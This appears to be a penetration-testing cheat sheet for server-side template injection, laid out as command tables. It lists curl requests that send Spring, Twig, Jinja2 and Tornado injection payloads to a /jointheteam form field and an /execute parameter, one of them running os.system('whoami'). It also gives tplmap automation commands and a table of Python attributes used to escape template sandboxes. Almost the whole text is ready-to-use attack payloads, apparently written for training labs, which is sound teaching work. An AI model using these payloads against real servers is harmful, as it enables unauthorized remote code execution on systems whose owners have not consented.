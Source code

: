 | `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`                                                                    | Interacting with the remote target (Spring payload)                  |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`                                              | Interacting with the remote target (Twig payload)                    |
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`                                                        | Interacting with the remote target (Jinja2 basic injection)          |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam`                                          | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email=<div data-gb-custom-block data-tag="import"></div>{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload)                 |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah`                                                                    | Automating the exploitation process with tplmap                      |

### SSTI Exploitation Example 3

| **Command**                                                  | **Description**                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------------- |
| `curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*'7'}}"` | Interacting with the remote target (Confirming Jinja2 backend)      |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd'`     | Automating the templating engine identification process with tplmap |
| `python3`                                                    | Starting the python3 interpreter                                    |

| **Methods**      | **Description**                                                                                                                     |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| `__class__`      | Returns the object (class) to which the type belongs                                                                                |
| `__mro__`        | Returns a tuple containing the base class inherited by the object. Methods are parsed in the order of tuples.                       |
| `__subclasses__` | Each new class retains references to subclasses, and this method returns a list of references that are still available in the class |
| `__builtins__`   | Returns the builtin methods included in a function                                                                                  |
| `__globals__`    | A reference to a dictionary that contains global variables for a function                                                           |
| `__base__`       | Returns the base class inherited by the object                                                                                      |
| `__init__`       | Class initialization method                                                                                                         |
